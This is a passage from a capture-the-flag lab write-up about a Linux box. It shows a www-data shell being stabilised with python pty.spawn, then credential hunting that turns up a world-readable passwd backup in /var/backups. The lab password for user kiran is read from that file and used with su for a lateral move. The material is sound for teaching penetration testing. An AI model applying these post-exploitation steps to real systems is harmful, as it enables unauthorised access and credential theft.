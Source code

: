~~~
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu-xenial:/$
~~~

## www-data -> kiran (lateral move)

Now we need to escalate to a more privileged user. First I listed `/home` to see the users on the machine and there is only one:

~~~
www-data@ubuntu-xenial:/$ ls /home
kiran
~~~

So we need to switch to user `kiran`. The hint tells us that there is a backup file somewhere. I started looking for it and found a hidden backup file in `/var/backups` that we have read access to:

~~~
www-data@ubuntu-xenial:/var/backups$ ls -la
total 636
drwxr-xr-x  2 root root     4096 Dec  9  2020 .
drwxr-xr-x 14 root root     4096 Dec  6  2020 ..
-r--r--r--  1 root root     1722 Dec  6  2020 .bak.passwd    <----------
-rw-r--r--  1 root root    51200 Dec  6  2020 alternatives.tar.0
-rw-r--r--  1 root root     6308 Dec  9  2020 apt.extended_states.0
-rw-r--r--  1 root root      715 Dec  6  2020 apt.extended_states.1.gz
-rw-r--r--  1 root root      509 Nov 12  2020 dpkg.diversions.0
-rw-r--r--  1 root root      207 Dec  6  2020 dpkg.statoverride.0
-rw-r--r--  1 root root   547201 Dec  6  2020 dpkg.status.0
-rw-------  1 root root      849 Dec  6  2020 group.bak
-rw-------  1 root shadow    714 Dec  6  2020 gshadow.bak
-rw-------  1 root root     1695 Dec  6  2020 passwd.bak
-rw-------  1 root shadow   1031 Dec  6  2020 shadow.bak
~~~

It is a backup file of `/etc/passwd` and user `kiran`'s password is inside it:

~~~
www-data@ubuntu-xenial:/var/backups$ cat .bak.passwd

[REDACTED]

kiran:x:1002:1002:trythispasswordforuserkiran:/home/kiran:
                  ^^^^^^^^^^^^^^^^^^^^^^^^^^^
~~~

kiran's password: `trythispasswordforuserkiran`

Now we have `kiran`' password and we can switch to this user:

~~~
www-data@ubuntu-xenial:/var/backups$ su kiran
Password: trythispasswordforuserkiran
kiran@ubuntu-xenial:/var/backups$ id
uid=1002(kiran) gid=1002(kiran) groups=1002(kiran)
~~~
